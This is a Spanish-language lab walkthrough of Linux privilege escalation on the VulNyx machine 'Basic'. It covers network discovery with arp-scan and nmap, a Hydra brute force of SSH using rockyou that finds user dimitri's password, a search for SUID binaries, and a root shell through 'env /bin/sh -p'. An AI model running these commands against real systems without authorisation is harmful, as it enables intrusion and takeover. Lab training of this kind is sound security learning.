 # Escalada de Privilegios en Linux – Binarios SUID | Parte 2

Maquinas que vamos a utilizar **Kali Linux y Basic** [https://vulnyx.com/#basic](https://vulnyx.com/#basic)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2074.png)

```bash
ping -c 1 10.0.3.22
```

![image.png](./imagenes/image%2075.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.22
```

![image.png](./imagenes/image%2076.png)

- Vamos a ver lo que esta corriendo por el **puerto 80**
    
    ![image.png](./imagenes/image%2077.png)
    

- Miramos lo que corre atreves del **puerto 631**
    
    ![image.png](./imagenes/image%2078.png)
    
- Vamos a husmear un poco y nos vamos a la **pestaña Printers** y vemos un posible nombre de usuario **dimitri**.
    
    ![image.png](./imagenes/image%2079.png)
    
- En el **nmap** habíamos visto que estaba **abierto el puerto 22** del **SSH** . Vamos a intentar un **ataque de fuerza bruta** con **Hydra** aprovechando que tenemos un posible nombre de usuario.
    
    ```bash
    hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.22
    ```
    
    ![image.png](./imagenes/image%2080.png)
    
    Nos a sacado un resultado de contraseña: **mememe.**
    
- Nos conectamos vía SSH.
    
    ```bash
    ssh [dimitri@10.0.3.22](./imagenes/mailto:dimitri@10.0.3.22)
    ```
    
    ![image.png](./imagenes/image%2081.png)
    

- Buscamos binarios vulnerables.
    
    `find / -perm -4000 2>/dev/null`
    
    ![image.png](./imagenes/image%2082.png)
    

- Nos vamos a la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) y miramos aquellos binarios que no son comunes y podamos pensar que son vulnerable a un ataque SUID. En nuestro caso seria `env`.
    
    ![image.png](./imagenes/image%2083.png)
    
    ![image.png](./imagenes/image%2084.png)
    
    ![image.png](./imagenes/image%2085.png)
    
- Deberíamos probar ambos comandos para ver cual funciona. Pero vamos a probar `./env /bin/sh -p`
    
    Antes de probarlo debemos tener en cuenta que  nosotros no estamos situados dentro de la ruta absoluta **del archivo “env” `/usr/bin/` deberemos quitar el punto que del inicio del comando quedando así `env /bin/sh -p`**
    
    **`env /bin/sh -p`**
    
    ![image.png](./imagenes/image%2086.png)
